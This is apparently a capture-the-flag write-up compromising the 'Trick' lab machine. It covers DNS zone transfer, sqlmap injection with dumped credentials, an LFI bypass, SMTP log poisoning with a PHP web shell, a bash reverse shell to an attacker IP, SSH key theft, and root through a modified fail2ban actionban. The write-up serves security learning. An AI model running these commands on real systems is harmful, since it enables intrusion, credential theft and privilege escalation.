





# Nmap 

Start with Nmap scan to find the open ports
```bash
nmap -sC -sV 10.129.227.180 -p- -Pn -A
```
where the port **80** ,**25** and **53** has been revelead to be open using whatweb we can find the server version nginx/1.14.2

```bash
whatweb 10.129.227.180:80
```

```bash
dig @10.129.227.180 axfr trick.htb
```
the  zone transfer reveals anthor sub-domain `preprod-payroll.trick.htb.` 




Added the new subdomain to our host file locally resolve the hostname


That reveals a login page which is php based application and tried a simple SQL injection payload which truned out to be right !
**d** on the username and password parameter




Lets try to attack further through sqlmap and see if we can grab some user data 

```bash
sqlmap -u http://preprod-payroll.trick.htb/ajax.php?action=login -- data="username=abc&password=abc" -p username --level 5 --risk 3 --technique=BEUS -- batch
```

this reveal the two methods which can be exploited using sql-injection
1. boolean based
2. Error-based
As we know the username parameter is vulnerable from the previous injection

```bash
sqlmap -u "http://preprod-payroll.trick.htb/ajax.php?action=login" -data="username=abc&password=abc" -p username -D payroll_db --tables --batch
        ___
       __H__                                                                                                      
 ___ ___["]_____ ___ ___  {1.9.9#stable}                                                                          
|_ -| . [']     | .'| . |                                                                                         
|___|_  [(]_|_|_|__,|  _|                                                                                         
      |_|V...       |_|   https://sqlmap.org                                                                      

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 02:38:08 /2026-02-01/

[02:38:08] [INFO] resuming back-end DBMS 'mysql' 
[02:38:08] [INFO] testing connection to the target URL
you have not declared cookie(s), while server wants to set its own ('PHPSESSID=jbluu3r25rg...408e9hrb1m'). Do you want to use those [Y/n] Y
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: username (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (NOT)
    Payload: username=abc' OR NOT 2867=2867-- WVFy&password=abc

    Type: error-based
    Title: MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: username=abc' OR (SELECT 6751 FROM(SELECT COUNT(*),CONCAT(0x7170767171,(SELECT (ELT(6751=6751,1))),0x71707a7071,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- ivtn&password=abc
---
[02:38:08] [INFO] the back-end DBMS is MySQL
web application technology: PHP, Nginx 1.14.2
back-end DBMS: MySQL >= 5.0 (MariaDB fork)
[02:38:08] [INFO] fetching tables for database: 'payroll_db'
[02:38:09] [INFO] retrieved: 'position'
[02:38:09] [INFO] retrieved: 'employee'
[02:38:09] [INFO] retrieved: 'department'
[02:38:09] [INFO] retrieved: 'payroll_items'
[02:38:09] [INFO] retrieved: 'attendance'
[02:38:09] [INFO] retrieved: 'employee_deductions'
[02:38:09] [INFO] retrieved: 'employee_allowances'
[02:38:09] [INFO] retrieved: 'users'
[02:38:10] [INFO] retrieved: 'deductions'
[02:38:10] [INFO] retrieved: 'payroll'
[02:38:10] [INFO] retrieved: 'allowances'
Database: payroll_db
[11 tables]
+---------------------+
| position            |
| allowances          |
| attendance          |
| deductions          |
| department          |
| employee            |
| employee_allowances |
| employee_deductions |
| payroll             |
| payroll_items       |
| users               |
+---------------------+

[02:38:10] [INFO] fetched data logged to text files under '/home/penguin/.local/share/sqlmap/output/preprod-payroll.trick.htb'                                                                                                      

[*] ending @ 02:38:10 /2026-02-01/

```
Further enumeration done on the users columns 
```bash
sqlmap -u "http://preprod-payroll.trick.htb/ajax.php?action=login" --data="username=abc&password=abc" -p username -D payroll_db -T users--dump --batch

```




Username **`Enemigosss:SuperGucciRainbowCake`**

```bash
sqlmap -u "http://preprod-payroll.trick.htb/ajax.php?action=login" --data="username=abc&password=abc" -p username --privileges --batch
```

Through sql map its revealed that the user has FILE privilege


Similarly we can reveal /etc/passwd file 
```bash
cat _etc_passwd 
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:101:102:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:104:110::/nonexistent:/usr/sbin/nologin
tss:x:105:111:TPM2 software stack,,,:/var/lib/tpm:/bin/false
dnsmasq:x:106:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
usbmux:x:107:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
rtkit:x:108:114:RealtimeKit,,,:/proc:/usr/sbin/nologin
pulse:x:109:118:PulseAudio daemon,,,:/var/run/pulse:/usr/sbin/nologin
speech-dispatcher:x:110:29:Speech Dispatcher,,,:/var/run/speech-dispatcher:/bin/false
avahi:x:111:120:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/usr/sbin/nologin
saned:x:112:121::/var/lib/saned:/usr/sbin/nologin
colord:x:113:122:colord colour management daemon,,,:/var/lib/colord:/usr/sbin/nologin
geoclue:x:114:123::/var/lib/geoclue:/usr/sbin/nologin
hplip:x:115:7:HPLIP system user,,,:/var/run/hplip:/bin/false
Debian-gdm:x:116:124:Gnome Display Manager:/var/lib/gdm3:/bin/false
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
mysql:x:117:125:MySQL Server,,,:/nonexistent:/bin/false
sshd:x:118:65534::/run/sshd:/usr/sbin/nologin
postfix:x:119:126::/var/spool/postfix:/usr/sbin/nologin
bind:x:120:128::/var/cache/bind:/usr/sbin/nologin
michael:x:1001:1001::/home/michael:/bin/bash

```

Through the same way can grab the configuration file nginx ,
```bash
cat _etc_nginx_sites-enabled_default 
server {
        listen 80 default_server;
        listen [::]:80 default_server;
        server_name trick.htb;
        root /var/www/html;

        index index.html index.htm index.nginx-debian.html;

        server_name _;

        location / {
                try_files $uri $uri/ =404;
        }

        location ~ \.php$ {
                include snippets/fastcgi-php.conf;
                fastcgi_pass unix:/run/php/php7.3-fpm.sock;
        }
}


server {
        listen 80;
        listen [::]:80;

        server_name preprod-marketing.trick.htb;

        root /var/www/market;
        index index.php;

        location / {
                try_files $uri $uri/ =404;
        }

        location ~ \.php$ {
                include snippets/fastcgi-php.conf;
                fastcgi_pass unix:/run/php/php7.3-fpm-michael.sock;
        }
}

server {
        listen 80;
        listen [::]:80;

        server_name preprod-payroll.trick.htb;

        root /var/www/payroll;
        index index.php;

        location / {
                try_files $uri $uri/ =404;
        }

        location ~ \.php$ {
                include snippets/fastcgi-php.conf;
                fastcgi_pass unix:/run/php/php7.3-fpm.sock;
        }
}
```

From the intial enumeration we found the first two host first one being the static one and other one with sql injection vulnerablity (http://preprod-payroll.trick.htb/login.php) and 3rd one lets add this to our local hosts(preprod-marketing.trick.htb)

Enumerating the new website 


The website is mostly static, and the contact form often returns a 404 error. The pages contain various links to other sections. For example, clicking the 'Services' button navigates to a new page, and the URL changes to http://preprod-marketing.trick.htb/index.php?page=services.html. Similarly, clicking 'About' opens another page, updating the URL to http://preprod-marketing.trick.htb/index.php?page=about.html. This behavior suggests that the site likely uses PHP’s include() function to dynamically display different pages.




Successfully bypassed LFI filter using **....//.....//** 
from the nmap scan we know that smtp port has been opened , so we can look weather  **michael**  is user or not

```bash
smtp-user-enum -M VRFY -u michael -t 10.129.227.180 -p 25
Starting smtp-user-enum v1.2 ( http://pentestmonkey.net/tools/smtp-user-enum )

 ----------------------------------------------------------
|                   Scan Information                       |
 ----------------------------------------------------------

Mode ..................... VRFY
Worker Processes ......... 5
Target count ............. 1
Username count ........... 1
Target TCP port .......... 25
Query timeout ............ 5 secs
Target domain ............ 

######## Scan started at Sun Feb  1 04:02:01 2026 #########
######## Scan completed at Sun Feb  1 04:02:06 2026 #########
0 results.

1 queries in 5 seconds (0.2 queries / sec)
```
it seems like VRFY has been disabled on SMTP service however lets try to send an mail to micheal

```bash
swaks --to michael --from penguin@trick.htb --header "Subject: test" --body "<?php system(\$_GET['cmd']); ?>" --server 10.129.227.180

=== Trying 10.129.227.180:25...
=== Connected to 10.129.227.180.
<-  220 debian.localdomain ESMTP Postfix (Debian/GNU)
 -> EHLO 0XFAF0
<-  250-debian.localdomain
<-  250-PIPELINING
<-  250-SIZE 10240000
<-  250-VRFY
<-  250-ETRN
<-  250-STARTTLS
<-  250-ENHANCEDSTATUSCODES
<-  250-8BITMIME
<-  250-DSN
<-  250-SMTPUTF8
<-  250 CHUNKING
 -> MAIL FROM:<penguin@trick.htb>
<-  250 2.1.0 Ok
 -> RCPT TO:<michael>
<-  250 2.1.5 Ok
 -> DATA
<-  354 End data with <CR><LF>.<CR><LF>
 -> Date: Sun, 01 Feb 2026 04:19:30 -0500
 -> To: michael
 -> From: penguin@trick.htb
 -> Subject: test
 -> Message-Id: <20260201041930.355540@0XFAF0>
 -> X-Mailer: swaks v20240103.0 jetmore.org/john/code/swaks/
 -> 
 -> <?php system($_GET['cmd']); ?>
 -> 
 -> 
 -> .
<-  250 2.0.0 Ok: queued as 76C9E4099C
 -> QUIT
<-  221 2.0.0 Bye
=== Connection closed with remote host.
```



successfully we got shell we can further enumerate using the given shell or get an reverse shell
we can use netcat for the reverse shell with url encoded
```url
http://preprod-marketing.trick.htb/index.php?page=....//....//....//var/mail/michael&cmd=bash%20-c%20%27bash%20-i%20%3E%26%20/dev/tcp/10.10.17.2/443%200%3E%261%27
```
```bash
nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.17.2] from (UNKNOWN) [10.129.227.180] 55088
bash: cannot set terminal process group (709): Inappropriate ioctl for device
bash: no job control in this shell
michael@trick:/var/www/market$ ls
ls
about.html
contact.html
css
fontawesome
home.html
img
index.php
js
services.html
michael@trick:/var/www/market$ 

```
we found the first user flag
```bash
michael@trick:~$ cat user.txt
cat user.txt
4b7c***************1e
michael@trick:~$ 
```
# ROOT user
```bash
michael@trick:~$ sudo -l
sudo -l
Matching Defaults entries for michael on trick:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User michael may run the following commands on trick:
    (root) NOPASSWD: /etc/init.d/fail2ban restart
michael@trick:~$ 

```

from the user enumeration its evidance that michael is member of security group
```bash
michael@trick:~$ id                                                             
id                                                                              
uid=1001(michael) gid=1001(michael) groups=1001(michael),1002(security)     All 
```
Specifically micheal doesnt have any privleges over the /etc/fail2ban file
```bash
ls -al /etc/fail2ban/action.d
total 288
drwxrwx--- 2 root security  4096 Feb  2 02:42 .
drwxr-xr-x 6 root root      4096 Feb  2 02:42 ..
-rw-r--r-- 1 root root      3879 Feb  2 02:42 abuseipdb.conf
-rw-r--r-- 1 root root       587 Feb  2 02:42 apf.conf
-rw-r--r-- 1 root root       629 Feb  2 02:42 badips.conf
-rw-r--r-- 1 root root     10918 Feb  2 02:42 badips.py
-rw-r--r-- 1 root root      2631 Feb  2 02:42 blocklist_de.conf
-rw-r--r-- 1 root root      3094 Feb  2 02:42 bsd-ipfw.conf
-rw-r--r-- 1 root root      2719 Feb  2 02:42 cloudflare.conf
-rw-r--r-- 1 root root      4669 Feb  2 02:42 complain.conf
-rw-r--r-- 1 root root      7580 Feb  2 02:42 dshield.conf
-rw-r--r-- 1 root root      1629 Feb  2 02:42 dummy.conf
-rw-r--r-- 1 root root      1501 Feb  2 02:42 firewallcmd-allports.conf
-rw-r--r-- 1 root root      2649 Feb  2 02:42 firewallcmd-common.conf
-rw-r--r-- 1 root root      2235 Feb  2 02:42 firewallcmd-ipset.conf
-rw-r--r-- 1 root root      1270 Feb  2 02:42 firewallcmd-multiport.conf
-rw-r--r-- 1 root root      1898 Feb  2 02:42 firewallcmd-new.conf
-rw-r--r-- 1 root root      2314 Feb  2 02:42 firewallcmd-rich-logging.conf
-rw-r--r-- 1 root root      1765 Feb  2 02:42 firewallcmd-rich-rules.conf
-rw-r--r-- 1 root root       589 Feb  2 02:42 helpers-common.conf
-rw-r--r-- 1 root root      1402 Feb  2 02:42 hostsdeny.conf
-rw-r--r-- 1 root root      1485 Feb  2 02:42 ipfilter.conf
-rw-r--r-- 1 root root      1417 Feb  2 02:42 ipfw.conf
-rw-r--r-- 1 root root      1426 Feb  2 02:42 iptables-allports.conf
-rw-r--r-- 1 root root      2738 Feb  2 02:42 iptables-common.conf
-rw-r--r-- 1 root root      2000 Feb  2 02:42 iptables-ipset-proto4.conf
-rw-r--r-- 1 root root      2197 Feb  2 02:42 iptables-ipset-proto6-allports.conf
-rw-r--r-- 1 root root      2240 Feb  2 02:42 iptables-ipset-proto6.conf
-rw-r--r-- 1 root root      2082 Feb  2 02:42 iptables-multiport-log.conf
-rw-r--r-- 1 root root      1420 Feb  2 02:42 iptables-multiport.conf
-rw-r--r-- 1 root root      1497 Feb  2 02:42 iptables-new.conf
-rw-r--r-- 1 root root      2584 Feb  2 02:42 iptables-xt_recent-echo.conf
-rw-r--r-- 1 root root      1339 Feb  2 02:42 iptables.conf
-rw-r--r-- 1 root root      2343 Feb  2 02:42 mail-buffered.conf
-rw-r--r-- 1 root root      1049 Feb  2 02:42 mail-whois-common.conf
-rw-r--r-- 1 root root      2355 Feb  2 02:42 mail-whois-lines.conf
-rw-r--r-- 1 root root      1754 Feb  2 02:42 mail-whois.conf
-rw-r--r-- 1 root root      1621 Feb  2 02:42 mail.conf
-rw-r--r-- 1 root root      5233 Feb  2 02:42 mynetwatchman.conf
-rw-r--r-- 1 root root      1493 Feb  2 02:42 netscaler.conf
-rw-r--r-- 1 root root       490 Feb  2 02:42 nftables-allports.conf
-rw-r--r-- 1 root root      4038 Feb  2 02:42 nftables-common.conf
-rw-r--r-- 1 root root       496 Feb  2 02:42 nftables-multiport.conf
-rw-r--r-- 1 root root      3697 Feb  2 02:42 nginx-block-map.conf
-rw-r--r-- 1 root root      1436 Feb  2 02:42 npf.conf
-rw-r--r-- 1 root root      3146 Feb  2 02:42 nsupdate.conf
-rw-r--r-- 1 root root       469 Feb  2 02:42 osx-afctl.conf
-rw-r--r-- 1 root root      2214 Feb  2 02:42 osx-ipfw.conf
-rw-r--r-- 1 root root      3662 Feb  2 02:42 pf.conf
-rw-r--r-- 1 root root      1023 Feb  2 02:42 route.conf
-rw-r--r-- 1 root root      2830 Feb  2 02:42 sendmail-buffered.conf
-rw-r--r-- 1 root root      1824 Feb  2 02:42 sendmail-common.conf
-rw-r--r-- 1 root root      1773 Feb  2 02:42 sendmail-geoip-lines.conf
-rw-r--r-- 1 root root      1052 Feb  2 02:42 sendmail-whois-ipjailmatches.conf
-rw-r--r-- 1 root root      1033 Feb  2 02:42 sendmail-whois-ipmatches.conf
-rw-r--r-- 1 root root      1300 Feb  2 02:42 sendmail-whois-lines.conf
-rw-r--r-- 1 root root       997 Feb  2 02:42 sendmail-whois-matches.conf
-rw-r--r-- 1 root root       977 Feb  2 02:42 sendmail-whois.conf
-rw-r--r-- 1 root root       857 Feb  2 02:42 sendmail.conf
-rw-r--r-- 1 root root      2981 Feb  2 02:42 shorewall-ipset-proto6.conf
-rw-r--r-- 1 root root      2068 Feb  2 02:42 shorewall.conf
-rw-r--r-- 1 root root      6134 Feb  2 02:42 smtp.py
-rw-r--r-- 1 root root      1330 Feb  2 02:42 symbiosis-blacklist-allports.conf
-rw-r--r-- 1 root root      1045 Feb  2 02:42 ufw.conf
-rw-r--r-- 1 root root      6082 Feb  2 02:42 xarf-login-attack.conf

```

but we can rename or move the file to since we have the ownership of the dierctory but

I had trouble with reverse shell to open text editor which lead me to login to ssh using micheal private key
```bash
michael@trick:/var/www/market$ cat /home/michael/.ssh/id_rsa
cat /home/michael/.ssh/id_rsa
```

```bash
michael@trick:/etc/fail2ban/action.d$ mv iptables-multiport.conf iptables-multiport.conf.bak
michael@trick:/etc/fail2ban/action.d$ vi iptables-multiport.conf
michael@trick:/etc/fail2ban/action.d$ cp iptables-multiport.conf.bak iptables-multiport.conf
michael@trick:/etc/fail2ban/action.d$ vi iptables-multiport.conf

```

We can work around the privileges from using move and creating new file as mentioned above 
The **`actionban`** directive was modified to execute the following commands
- `/bin/bash` is copied to `/tmp/penguin`
    
- The permission `4777` sets the **SetUID bit**
    
- Since the file is owned by `root`, executing it runs Bash with **root privileges**
```bash
actionban = cp /bin/bash /tmp/penguin; chmod 4777 /tmp/penguin
```

To trigger the escalation we need to reset the fail2ban so service was restarted to load the modified configuration:
```bash
michael@trick:/etc/fail2ban/action.d$ sudo /etc/init.d/fail2ban restart
[ ok ] Restarting fail2ban (via systemctl): fail2ban.service.

```

An authentication attack was launched to intentionally trigger a ban using **crackmapexec** 
```bash
crackmapexec ssh trick.htb -u oxdf -p /usr/share/wordlists/rockyou.txt 
```

Once Fail2Ban banned the attacking IP, the malicious **actionban** command executed as root.
Since we change the actionban from the config file we get root shell , Verification of the created SetUID binary:
```bash
michael@trick:/etc/fail2ban/action.d$ ls -l /tmp/penguin
-rwsrwxrwx 1 root root 1168776 Feb  2 03:39 /tmp/penguin

```

Executing the binary with preserved privileges: the **-p** option is required because Bash drops elevated privileges when executed as a SetUID binary. The -p flag forces Bash to preserve the effective UID, allowing the shell to run as root.
```bash
michael@trick:/etc/fail2ban/action.d$ /tmp/penguin -p
```
Root shell obtained
```bash
penguin-5.0# whoami
root
penguin-5.0# cat /root/root.txt
*********1af9b12f2
penguin-5.0# 

```
